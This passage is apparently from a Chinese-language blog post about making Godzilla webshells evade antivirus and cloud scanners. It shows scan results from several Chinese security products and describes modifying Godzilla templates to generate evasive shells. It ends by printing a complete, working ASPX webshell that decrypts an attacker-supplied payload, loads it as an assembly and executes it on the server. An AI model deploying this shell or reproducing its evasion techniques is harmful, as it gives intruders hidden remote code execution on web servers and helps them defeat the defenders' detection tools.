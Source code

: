 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNDWQRpqkmWO8lB6aRlkhwicuqFtQftibyBfuTquygekhMGcJJICRDEXsw/640?wx_fmt=png&from=appmsg "")  
  
  
如我们所想，阿里云直接检测EXECUTE，存在即被ban，那这样的话，没啥好办法了，和php的eval一样了。先搁着，后面笔者在学习学习。  
  
微步没问题  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNbHtFUEBn631U0gX6ep0WiaD1aD2eH3pwiaU6qAKicw3E0LfoGBoSc4W6Q/640?wx_fmt=png&from=appmsg "")  
  
  
河马也没问题  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNqrG1cNCgcpbChhiasDatrgSxFdnuOP5SLSj8xFeQIghtEeVZGwpOvOA/640?wx_fmt=png&from=appmsg "")  
  
  
d盾  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNJN9Qq6KLNcg2w9RGhdEP5iaGn2zoyzQRe0hvHOdTBgeg0usI5dpXNmw/640?wx_fmt=png&from=appmsg "")  
  
  
360 火绒  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYN9vVE1DajqOdlXDDdDoNM7Vk06INdkiabBKXOicFJD5dVncJZb3Fic0Cjw/640?wx_fmt=png&from=appmsg "")  
  
  
那么也就是除了aliyun 其他应该都没啥问题  
  
我们进行简单优化一下，函数和字符串复用一下，尽量少些一点字符。  
  
然后整到到哥斯拉里。替换一下变量名。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNoIYKpfSoso4H8162vhOrfuDyFBeu6YChYUEIPInC20QuOYSAffH0kA/640?wx_fmt=png&from=appmsg "")  
  
  
模板也修改一下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYN3cLs6MkdK80eIjzsibxz5646ibRrL3jaljhDufptpfEoYYJmxDVNrAEw/640?wx_fmt=png&from=appmsg "")  
  
  
然后打包试一下效果。生成三个免杀🐎，都不一样。  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNZWBSs2QLMNT5jO8AR12ySWPo5ghBVLX1sVQ0uzR3yFacq2WevZ73Ew/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNNb4Xvd24ThyBZE13CjroBdyUCajIHBgs4MILcB84ekbtYib7t6ZDjVw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNpwPa6wfN4BGKS9RY8XzShjxiaJjXibicdzmCo6rLndRb9nYPb0PcdJNIg/640?wx_fmt=png&from=appmsg "")  
  
  
ok，没有任何问题。接下来看aspx。  
##### aspx免杀  
  
我们先来看一下aspx的CSHAP_AES_BASE64的🐎  
```
<%@ PAge LaNgUagE="C#"%>
<%try { string key = "3c6e0b8a9c15224a"; string pass = "pass"; string md5 = System.BitConverter.ToString(new System.Security.Cryptography.MD5CryptoServiceProvider().ComputeHash(System.Text.Encoding.Default.GetBytes(pass + key))).Replace("-", ""); byte[] data = System.Convert.FromBase64String(Context.Request[pass]); data = new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(data, 0, data.Length); if (Context.Session["payload"] == null) { Context.Session["payload"] = (System.Reflection.Assembly)typeof(System.Reflection.Assembly).GetMethod("Load", new System.Type[] { typeof(byte[]) }).Invoke(null, new object[] { data }); ; } else { System.IO.MemoryStream outStream = new System.IO.MemoryStream(); object o = ((System.Reflection.Assembly)Context.Session["payload"]).CreateInstance("LY"); o.Equals(Context); o.Equals(outStream); o.Equals(data); o.ToString(); byte[] r = outStream.ToArray(); Context.Response.Write(md5.Substring(0, 16)); Context.Response.Write(System.Convert.ToBase64String(new System.Security.Cryptography.RijndaelManaged().CreateEncryptor(System.Text.Encoding.Default.GetBytes(key), System.Text.Encoding.Default.GetBytes(key)).TransformFinalBlock(r, 0, r.Length))); Context.Response.Write(md5.Substring(16)); } } catch (System.Exception) { }
%>
```  